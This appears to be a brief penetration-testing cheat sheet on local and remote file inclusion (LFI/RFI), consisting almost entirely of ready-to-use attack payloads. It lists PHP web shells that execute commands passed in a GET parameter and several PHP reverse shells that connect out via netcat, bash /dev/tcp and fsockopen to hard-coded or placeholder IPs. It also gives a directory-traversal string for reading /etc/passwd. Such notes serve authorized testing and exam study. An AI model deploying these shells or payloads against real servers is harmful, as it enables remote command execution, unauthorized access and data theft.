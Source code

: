 # LFI/RFI

Pentestmonkeys `/usr/share/webshells/php/php-reverse-shell.php`

```php
<?php echo shell_exec("nc $TARGET_IP -e /bin/sh") ?>
```

```php
<?php echo system($_GET["cmd"]);?>
<?php echo shell_exec($_GET["cmd"]);?>
```

### Reverse TCP shell without netcat

```text
<?php echo shell_exec('/bin/bash -i >& /dev/tcp/10.11.0.98/443 0>&1');?>
```

```text
../../../../../../../../../etc/passwd
```

```text
$sock=fsockopen("127.0.0.1",1337)
exec("/bin/sh -i <&3 >&3 2>&3")
```

## Notes

* Sometimes netcat does not support`-e`flag

## References

* [https://awakened1712.github.io/oscp/oscp-lfi-rfi/](https://awakened1712.github.io/oscp/oscp-lfi-rfi/)



